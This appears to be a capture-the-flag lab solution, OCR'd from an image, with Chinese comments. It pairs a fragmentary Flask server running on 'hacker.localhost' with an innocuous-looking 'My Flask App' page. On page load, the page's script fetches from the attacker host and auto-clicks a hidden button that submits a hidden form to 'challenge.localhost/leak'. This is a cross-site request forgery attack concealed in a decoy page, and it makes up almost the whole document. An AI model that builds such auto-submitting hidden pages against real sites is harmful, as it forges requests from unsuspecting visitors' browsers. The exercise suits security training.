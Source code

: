 ```python
def index1():
    # 创建一个访问challenge.localhost的请求
    challenge_url = "http://challenge.localhost/leak"
    return redirect(challenge_url)

if __name__ == '__main__':
    app.secret_key = "test"
    app.run(host="hacker.localhost", port=81)

```

网页:
```html


<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>My Flask App</title>
</head>
<body>
    <h1>Welcome to My Flask App!</h1>
    <p>This is a simple example of a rendered HTML page using Flask.</p>
    <form id="myForm" action="http://challenge.localhost/leak" method="POST" style="display:none;">
      <input type="hidden" name="key" value="value">
    </form>
    <button id="myButton" style="display:none;">Click me</button>
</body>
<script>
    document.addEventListener('DOMContentLoaded', (event) => {
    const button = document.getElementById('myButton');
    
    button.addEventListener('click', () => {
      const form = document.getElementById('myForm');
      form.submit();
    });
    
    fetch('http://hacker.localhost:81/leak', { method: 'GET', redirect: 'manual' })
    .then(response => {
      // 自动触发按钮点击事件
      button.click();
    })
    .then(response => response.text())
    .then(data => console.log(data))
    .catch(error => console.error('Error:', error))

  });
;

</script>
</html>
```
